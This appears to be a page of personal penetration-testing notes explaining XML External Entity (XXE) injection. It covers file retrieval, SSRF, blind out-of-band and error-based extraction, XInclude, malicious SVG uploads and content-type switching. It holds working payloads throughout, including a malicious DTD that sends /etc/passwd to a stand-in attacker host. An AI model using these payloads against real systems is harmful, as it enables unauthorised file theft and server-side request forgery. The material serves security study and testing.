 ```yaml
---
title: XXE Injection
category: Web
order: 16
---
```


XML External Entity injection as known as XXE is a vulnerability that allowss an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server and interact with any back-end or external systems that the application itself can access.

It can be also leverage to a SSRF attack.

There are various types of XXE attacks: 

* To retrieve files 
* To perform SSRF attacks
* Exfiltrate data out-of-band
* To retrieve data via error messages

Here is the simpliest payload to check if entities are enabled:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

# Exploiting XXE to retrieve files

To retrieve files we need to modify the `DOCTYPE` element that defines an external entity containing the path to the file and edit a value in the XML that is returned in the application's response.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

> **Note**: We need to generally test each data node in the XML individually.


# Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they can be used to perform server-side request forgery (SSRF). This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://example.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

# Blind XXE vulnerabilities

Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible, and so blind XXE is generally harder to exploit than regular XXE vulnerabilities.

There are two ways in which we can find and exploit an XXE vuln:

* Trigger out-of-band network interactions, sometimes exfiltrating sensitive data.
* Trigger XML parsing errors in such a way that the error message contains senstive data.

## Detecting blind XXE using out-of-band (OAST) techniques

We can detect blind XXE using the same technique as for XXE SSRF attack.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://collaborator.burp.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Some times XXE attacks using regular entities are blocked due to some input validation. In this situation we might be able to use **XML parameters entities** instead.

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://collaborator.burp.com/"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band

We can **host a malicious DTD** from within the in-band XXE payload.

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the file entity within the URL query string.
* Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
* Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

Once hosted our malicious DTD for example in `http://attacker.com/malicious.dtd` we can submit the following XXE payload with XML parameter on the vulnerable application.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

> **Note**: This technique might not work with some file contents, including the newline characters. Try to use `ftp` instead of `http`. `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"ftp://web-attacker.com/malicious.dtd"> %xxe;]>`

## Exploiting blind XXE to retrieve data via error messages

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response. 

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

This DTD carries out the following steps:

* Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
* Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called error. The error entity will be evaluated by loading a nonexistent file whose name contains the value of the file entity.
* Uses the eval entity, which causes the dynamic declaration of the error entity to be performed.
* Uses the error entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the /etc/passwd file.

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

# Hidden attack surface for XXE injection

## XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend **SOAP service**. 

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead.

```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Example of exploitation:

![](/hackingnotes/images/xxe.png)

## File Upload

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can **submit a malicious SVG image** and so reach hidden attack surface for XXE vulnerabilities. 

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

> **Note**: The content will be visible on the upload image as data. You can use a OCR to retrieve all the text.

## Via modified content type

Most `POST` requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML. 

Example of normal request:

```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Then we might be able to submit an XML.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```